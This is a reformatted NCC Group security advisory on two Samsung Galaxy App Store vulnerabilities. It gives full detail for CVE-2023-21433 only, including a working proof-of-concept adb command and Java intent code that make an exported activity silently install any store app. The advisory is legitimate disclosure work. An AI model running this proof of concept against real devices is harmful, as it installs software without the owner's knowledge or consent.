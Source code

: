 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [research.nccgroup.com](https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/)

> The Galaxy App Store is an alternative application store that comes pre-installed on Samsung Android ......

The Galaxy App Store is an alternative application store that comes pre-installed on Samsung Android devices. Several Android applications are available on both the Galaxy App Store and Google App Store, and users have the option to use either store to install specific applications.

Two vulnerabilities were uncovered with the Galaxy App Store application:

*   Technical Advisory: Improper access control could allow local attackers to install applications from the Galaxy App Store ([CVE-2023-21433](https://www.cvedetails.com/cve/CVE-2023-21433))
*   Technical Advisory: Improper input validation could allow local attackers to execute JavaScript by launching a web page ([CVE-2023-21434](https://www.cvedetails.com/cve/CVE-2023-21434))

**Technical Advisories**

**Improper access control could allow local attackers to install applications from the Galaxy App Store (CVE-2023-21433)**

```
Vendor: Samsung
Vendor URL: https://www.samsung.com
Versions Affected: 4.5.44.1, other versions might be affected
Systems Affected: Galaxy App Store Android Application (com.sec.android.app.samsungapps)
CVE Identifier: CVE-2023-21433

```

**Summary**

It was found that the Galaxy App Store has an exported activity which does not handle incoming intents in a safe manner. This allows other applications installed on the same Samsung device to automatically install any application available on the Galaxy App Store without the user’s knowledge.

It should be noted that due to the changes made to Android 13, this issue only affects Samsung devices that are running Android 12 and below.

**Impact**

A pre-installed rouge application on a Samsung device running Android 12 or below can abuse this issue to install any application currently available on the Galaxy App Store.

**Proof of Concept (PoC)**

The following `adb` command can be used to abuse this issue to automatically install the application “Pokemon Go”:

```
am start -n com.sec.android.app.samsungapps/.detail.alleypopup.AlleyDetailActivity --es GUID com.nianticlabs.pokemongo.ares --ez directInstall true --ez directOpen true

```

Alternatively, the following Java code can be used to perform the same action:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.sec.android.app.samsungapps", "com.sec.android.app.samsungapps.detail.alleypopup.AlleyDetailActivity"));
intent.putExtra("GUID", "com.nianticlabs.pokemongo.ares");
intent.putExtra("directInstall", true);
intent.putExtra("directOpen", true);
startActivity(intent);


```
